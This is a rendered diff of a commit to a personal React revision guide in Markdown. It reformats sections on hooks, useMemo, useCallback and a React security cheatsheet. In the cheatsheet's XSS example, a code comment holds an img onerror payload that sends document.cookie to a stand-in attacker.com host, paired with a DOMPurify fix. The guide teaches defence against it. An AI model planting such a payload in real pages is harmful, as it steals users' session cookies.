

Before and after one commit to Maithali/blockchain-journey, a Markdown page: notes/React_Revision_Guide.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/notes/React_Revision_Guide.md
+++ b/notes/React_Revision_Guide.md
@@ -355,15 +430,22 @@ function useOnlineStatus() {
 // Usage inside component
 export default function StatusBar() {
   const isOnline = useOnlineStatus();
-  return <h1>{isOnline ? '✅ Online' : '❌ Disconnected'}</h1>;
+  return <h1>{isOnline ? "✅ Online" : "❌ Disconnected"}</h1>;
 }
+```
 
-8. Performance Optimization Architecture
+---
+
+## 8. Performance Optimization Architecture
+
 React relies on virtual DOM diffing. Use these APIs to optimize costly computations and unneeded child re-renders.
 
-useMemo
+### useMemo
+
 Caches the result of a calculation between renders.
-import { useMemo } from 'react';
+
+```jsx
+import { useMemo } from "react";
 
 function TodoList({ todos, filter }) {
   // Recalculates only when 'todos' or 'filter' changes
@@ -371,53 +453,74 @@ function TodoList({ todos, filter }) {
     return calculateExpensiveFilter(todos, filter);
   }, [todos, filter]);
 
-  return <ul>{visibleTodos.map(todo => <li key={todo.id}>{todo.text}</li>)}</ul>;
+  return (
+    <ul>
+      {visibleTodos.map((todo) => (
+        <li key={todo.id}>{todo.text}</li>
+      ))}
+    </ul>
+  );
 }
+```
 
-useCallback
+### useCallback
+
 Caches a function definition between renders.
 
-import { useCallback } from 'react';
+```jsx
+import { useCallback } from "react";
 
 function ProductPage({ productId, referrer }) {
   // Prevents recreation of handleSubmit reference on every render
-  const handleSubmit = useCallback((orderDetails) => {
-    post('/product/' + productId + '/buy', {
-      referrer,
-      orderDetails,
-    });
-  }, [productId, referrer]);
+  const handleSubmit = useCallback(
+    (orderDetails) => {
+      post("/product/" + productId + "/buy", {
+        referrer,
+        orderDetails,
+      });
+    },
+    [productId, referrer],
+  );
 
-  return <Form onSubmit="{handleSubmit}"/>;
+  return <Form onSubmit={handleSubmit} />;
 }
+```
 
-9. React Security Cheatsheet & Vulnerabilities
+---
+
+## 9. React Security Cheatsheet & Vulnerabilities
+
 React provides built-in safety controls, but specific developer coding patterns can introduce catastrophic client-side security risks.
 
-1. Cross-Site Scripting (XSS) via Unsanitized Markup
-Vulnerability Concept
-Using dangerouslySetInnerHTML bypasses React's default auto-escaping and allows arbitrary script injection execution.
+### 1. Cross-Site Scripting (XSS) via Unsanitized Markup
 
-Vulnerable Code
+#### Vulnerability Concept
 
+Using `dangerouslySetInnerHTML` bypasses React's default auto-escaping and allows arbitrary script injection execution.
+
+#### Vulnerable Code
+
+```jsx
 // 🚨 VULNERABLE TO XSS
 function UserBio({ userComment }) {
-  // If userComment contains: <img src=x onerror="fetch('[http://attacker.com/steal?c='+document.cookie](http://attacker.com/steal?c='+document.cookie))" />
+  // If userComment contains: <img src=x onerror="fetch('http://attacker.com/steal?c='+document.cookie)" />
   return <div dangerouslySetInnerHTML={{ __html: userComment }} />;
 }
+```
 
-Secure Remediation
+#### Secure Remediation
+
 Avoid HTML injection. If required, sanitize user content strictly using libraries like DOMPurify.
 
+```jsx
 // 🔒 SECURE
-import DOMPurify from 'dompurify';
+import DOMPurify from "dompurify";
 
 function UserBio({ userComment }) {
   const cleanHTML = DOMPurify.sanitize(userComment);
   return <div dangerouslySetInnerHTML={{ __html: cleanHTML }} />;
 }
+```
 
-2. Insecure Script/URL Injections
-Vulnerability Concept
-User-controlled URLs supplied to href or src attributes using javascript: protocol can trigger script execution upon user interaction.
+### 2. Insecure Script/URL Injections
 
````
Also changed, not shown: other parts of notes/React_Revision_Guide.md (+248 -84 lines).
